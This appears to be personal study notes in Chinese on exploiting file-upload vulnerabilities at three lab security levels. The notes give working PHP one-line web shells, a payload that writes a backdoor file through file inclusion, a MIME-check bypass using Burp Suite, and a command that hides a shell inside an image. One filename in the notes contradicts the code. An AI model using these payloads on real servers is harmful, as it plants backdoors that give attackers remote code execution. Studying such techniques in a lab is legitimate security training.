


# 低安全的上传

可以直接上传PHP一句话木马

# 中级

会对上传的文件进行类型判断

只需通过burpsuite修改MIME为image/png即可

# 高级

通过上传图片木马，然后结合文件包含漏洞即可

需要修改图片中的木马为：

```php
<?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
```

然后通过文件包含漏洞，执行上面代码，会生产rl.php的小马

# 图片木马制作过程

以下为CMD下用copy命令制作“图片木马”的步骤，其中，a.jpg/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件。

```cmd
copy a.jpg/b+hack.php/a hack.jpg
```

# php一句话木马

```php
 <?php @eval($_POST['cmd']); ?>
```

# Apache htaccess文件绕过



# 资料

文件上传漏洞总结

https://zhuanlan.zhihu.com/p/44370136

Web安全-一句话木马

https://blog.csdn.net/weixin_39190897/article/details/86772765

PHP一句话简单免杀

https://www.cnblogs.com/Secde0/p/13902819.html